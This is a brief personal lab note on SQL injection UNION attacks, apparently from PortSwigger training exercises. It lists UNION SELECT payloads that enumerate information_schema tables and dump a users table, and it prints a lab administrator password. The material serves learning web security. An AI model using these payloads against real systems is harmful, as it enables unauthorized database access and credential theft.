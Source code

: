 # UNION attacks

MySQL end of query = `--` and `#`, **try both**.

**PS Lab:** `SQL injection attack, querying the database type and version on MySQL and Microsoft` rejected my accurate queries because I ended my query with `--` instead of `#`. Is this accurate of a real-world setup? I'm not sure.


### Lab: SQL injection attack, listing the database contents on non-Oracle databases
This is a non-Oracle database, so we need to make user of information_schema.tables
>Pets' union select table_name,NULL from information_schema.tables--

This returns all of the tables in the database.

Look for a non-standard table `users_xgouhg`

>Pets' union select * from users_xgouhg--

```administrator
8bd235i2g39fg3h6865g
```

Chaching 💸
